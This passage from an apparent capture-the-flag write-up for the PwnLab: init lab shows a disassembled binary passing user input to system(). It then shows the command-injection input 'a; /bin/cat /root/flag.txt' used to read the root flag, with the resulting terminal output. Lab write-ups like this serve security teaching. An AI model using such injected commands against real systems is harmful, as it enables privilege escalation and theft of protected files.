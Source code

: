 ```
|           0x080484fe      83ec0c         sub esp, 0xc
|           0x08048501      50             push eax
|           0x08048502      e869feffff     call sym.imp.system         ; int system(const char *string)
|           0x08048507      83c410         add esp, 0x10
|           0x0804850a      8b4dfc         mov ecx, dword [local_4h]
|           0x0804850d      c9             leave
|           0x0804850e      8d61fc         lea esp, dword [ecx - 4]
\           0x08048511      c3             ret
```

The command "/bin/echo %s >> /root/messages.txt" which is executed has a command injection vulnerability so we simply run the binary and input `a; /bin/cat /root/flag.txt` to get the flag:

```
mike@pwnlab:/$ /home/mike/msg2root
/home/mike/msg2root
Message for root: a; /bin/cat /root/flag.txt
a; /bin/cat /root/flag.txt
a
.-=~=-.                                                                 .-=~=-.
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
(_ ___)  _____                             _                            (_ ___)
(__  _) /  __ \                           | |                           (__  _)
( _ __) | /  \/ ___  _ __   __ _ _ __ __ _| |_ ___                      ( _ __)
(__  _) | |    / _ \| '_ \ / _` | '__/ _` | __/ __|                     (__  _)
(_ ___) | \__/\ (_) | | | | (_| | | | (_| | |_\__ \                     (_ ___)
(__  _)  \____/\___/|_| |_|\__, |_|  \__,_|\__|___/                     (__  _)
( _ __)                     __/ |                                       ( _ __)
(__  _)                    |___/                                        (__  _)
(__  _)                                                                 (__  _)
(_ ___) If  you are  reading this,  means  that you have  break 'init'  (_ ___)
( _ __) Pwnlab.  I hope  you enjoyed  and thanks  for  your time doing  ( _ __)
(__  _) this challenge.                                                 (__  _)
(_ ___)                                                                 (_ ___)
( _ __) Please send me  your  feedback or your  writeup,  I will  love  ( _ __)
(__  _) reading it                                                      (__  _)
(__  _)                                                                 (__  _)
(__  _)                                             For sniferl4bs.com  (__  _)
( _ __)                                claor@PwnLab.net - @Chronicoder  ( _ __)
(__  _)                                                                 (__  _)
(_ ___)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(_ ___)
`-._.-'                                                                 `-._.-'
mike@pwnlab:/$ 
```
